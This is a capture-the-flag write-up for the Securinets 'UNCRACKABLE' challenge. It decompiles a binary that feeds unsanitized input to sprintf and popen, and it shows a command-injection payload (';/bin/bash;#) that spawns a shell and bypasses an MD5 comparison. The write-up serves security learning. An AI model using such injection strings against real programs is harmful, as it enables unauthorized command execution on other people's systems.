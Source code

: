 # [PWN] UNCRACKABLE - 666 pts.

We’re given this file: ![file missing](https://altelus1.github.io/writeups/ctf/securinetspreq2020/images/uncrackable_1.png#%20medium)  

Let’s analyze this with Ghidra. Here is the decompiled main:

```
void main(void)

{
  int iVar1;
  char local_459;
  char local_458 [1040];
  undefined local_48 [47];
  char local_19;
  char *local_18;
  FILE *local_10;
  
  setvbuf(stdout,(char *)0x0,2,0);
  __isoc99_scanf(&DAT_00102008,local_48);
  sprintf(&local_459,"echo -n \'%s\'|md5sum",local_48);
  local_10 = popen(&local_459,"r");
  if (local_10 == (FILE *)0x0) {
    puts("Failed to run command");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_458,0x21,local_10);
  local_18 = "3b9aafa12aceeccd29a154766194a964";
  iVar1 = memcmp(local_458,"3b9aafa12aceeccd29a154766194a964",0x20);
  local_19 = (char)iVar1;
  if (local_19 == '\0') {
    system("cat flag");
  }
  else {
    puts("not good enough");
  }
  return;
}
```

Our task here to _cat_ the flag is to give an input string that when we get its md5 it should be equal to “3b9aafa12aceeccd29a154766194a964”. Thinking to the perspective of this challenge, cracking the hash is out of the question. So how can we exploit this?  

## The vulnerability

Our input is directly inserted to the sprintf without proper sanitation. We can inject bash code in there.  
(Note: Since the challenge server is not up at the time this is written, we will use our own machine as the challenge server.)  

Let’s run the challenge locally and create a test flag: ![file missing](https://altelus1.github.io/writeups/ctf/securinetspreq2020/images/uncrackable_2.png#%20big)  

## Exploitation

This is the original string:

```
"echo -n \'%s\'|md5sum"
```

This is our exploit string:

```
';/bin/bash;#
```

And this is going to be the final string:

```
"echo -n \'\';/bin/bash;#|md5sum;
```

# - this is to comment out md5sum  

It worked! The challenge server tried to execute “aaaaaaaaaa” but there is no such command exist. However when a legitimate command is used, “not good enough” is printed instead of supposed output of the respective command. ![file missing](https://altelus1.github.io/writeups/ctf/securinetspreq2020/images/uncrackable_3.png)  

This is because the output from STDOUT is being passed to the variable `local_458` instead of printing it. After that, the output is compared to the hard coded hash that’s why “not good enough” is printed.

```
...
 sprintf(&local_459,"echo -n \'%s\'|md5sum",local_48);
  local_10 = popen(&local_459,"r");
  if (local_10 == (FILE *)0x0) {
    puts("Failed to run command");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_458,0x21,local_10);
  local_18 = "3b9aafa12aceeccd29a154766194a964";
  iVar1 = memcmp(local_458,"3b9aafa12aceeccd29a154766194a964",0x20);
...
```

  
However, if we print the hash itself using the `echo` command, it should work. ![file missing](https://altelus1.github.io/writeups/ctf/securinetspreq2020/images/uncrackable_4.png)  

All we have to do is to connect to the original challenge server and redo what we have done and we should be able to get the flag.  
Flag: _securinets{memcmp_turned_out_to_be_shame_shame_shame!!}_  
Thank you for reading!